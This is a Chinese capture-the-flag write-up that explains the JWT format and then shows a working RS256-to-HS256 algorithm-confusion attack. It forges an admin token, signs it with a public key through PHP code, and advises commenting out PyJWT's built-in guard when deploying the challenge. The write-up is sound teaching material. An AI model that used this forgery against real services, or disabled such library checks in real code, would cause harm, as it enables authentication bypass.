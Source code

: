 ### jwt协议简介

jwt一般长下面这个样子：
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoid29uZGVya3VuIiwicHJpdiI6ImFkbWluIn0.R6Aplj46fUwIeCnnbm5OU2sDTQkG1rvjpW2bGqnfkGE
```
一般由3个部分组成的，由三个.分隔，分别是
```
header
payload
Sinature
```
每一部分都是base64编码的。
#### header
通常由两部分组成：令牌的类型，即JWT和正在使用的散列算法，如HMAC SHA256或RSA。
正如json所显示
```
{
    "alg":"RS256",
    "typ":"JWT"
}
```
alg为算法的缩写，typ为类型的缩写,然后，这个JSON被Base64编码，形成JSON Web Token的第一部分。

#### payload
令牌的第二部分是包含声明的有效负载。声明是关于实体（通常是用户）和其他元数据的声明。
这里是用户随意定义的数据
例如上面的举例
```
{
    "name":"wonderkun",
    "priv":"admin"
}
```
然后将有效载荷Base64进行编码以形成JSON Web Token的第二部分。
但是需要注意对于已签名的令牌，此信息尽管受到篡改保护，但任何人都可以阅读。除非加密，否则不要将秘密信息放在JWT的有效内容或标题元素中。

#### Signature
要创建签名部分，必须采用header，payload，密钥。然后利用header中指定算法进行签名，例如HS256(HMAC SHA256),签名的构成为：

```
HMACSHA256(
  base64Encode(header) + "." +
  base64Encode(payload),
  secret)
```
然后将这部分base64编码形成JSON Web Token第三部分.

### writeup

此题目用到一个jwt的一个漏洞,漏洞详情见[https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)


这其实是一个算法篡改攻击，因为服务器利用的RS256算法，用的是私钥进行签名，公钥进行验证的，然后根据提示：
[/static/js/common.js][/static/js/common.js]
```
function getpubkey(){
    /* 
    get the pubkey for test
    /pubkey/{md5(username+password)}
    */
}
```
我们可以获取到自己的public key。JWT的header部分中，有签名算法标识alg，而alg是用于签名算法的选择，最后保证用户的数据不被篡改。但是在数据处理不正确的情况下，可能存在alg的恶意篡改。我们可以伪造算法为hs256，然后利用我们的获取的public key，来签名伪造的数据，绕过验证。

但是注意，PyJWT库中对这种攻击做了预防，不允许hs256的密钥中出现下面这些字符，具体见algorithms.py:151

```python
        invalid_strings = [
            b'-----BEGIN PUBLIC KEY-----',
            b'-----BEGIN CERTIFICATE-----',
            b'-----BEGIN RSA PUBLIC KEY-----',
            b'ssh-rsa'
        ]

```
部署题目的时候，注意注释掉。

伪造一个数据：

```
{"alg":"HS256","typ":"JWT"}
{"name":"wonderkun","priv":"admin"}
```
两部分进行base64编码之后,合起来：
注意这里的base64是url base64编码，所以对常规的base64编码结果做如下修改：
- 删除等号
- 把 + 变为 -
- 把 / 变为 _
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoid29uZGVya3VuIiwicHJpdiI6ImFkbWluIn0
```

然后获取到 wonderkun用户的pubkey为：

```
{
  "pubkey": "-----BEGIN PUBLIC KEY-----\nMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCI2am2P9XyshjiU37d5QZBbzyF\nZ7aHg1VMdQSj423cncHKGuGz1sxPzBF+49qGQ2U2MpKDcwXCTKDotTvPm3arm0KZ\nlVp6RclIjYZqbnp0yTVQpO4YLmjBS7GmEMeaRUxDva2tob9BpwBx9RMQ1nPt0Yw4\n7mKHxPKXzUVE2xHiKwIDAQAB\n-----END PUBLIC KEY-----", 
  "result": true
}
```
用pubkey作为 HMAC_sha256的secret,算一下签名：

```php
$s = hash_hmac('sha256', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoid29uZGVya3VuIiwicHJpdiI6ImFkbWluIn0', "-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCI2am2P9XyshjiU37d5QZBbzyF
Z7aHg1VMdQSj423cncHKGuGz1sxPzBF+49qGQ2U2MpKDcwXCTKDotTvPm3arm0KZ
lVp6RclIjYZqbnp0yTVQpO4YLmjBS7GmEMeaRUxDva2tob9BpwBx9RMQ1nPt0Yw4
7mKHxPKXzUVE2xHiKwIDAQAB
-----END PUBLIC KEY-----", true);
$s = base64_encode($s);
$s = str_replace(array('=','+','/'),array('','-','_'),$s);
echo $s;

```

最后合起来:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoid29uZGVya3VuIiwicHJpdiI6ImFkbWluIn0.evD4XNPZ8e2DI9jnt1nH_sJ6zHJx4VZcFjUvk2IYcoM
```

访问/list的时候带上这个jwt token，就可以可以到管理员的note，访问一下，就是flag。
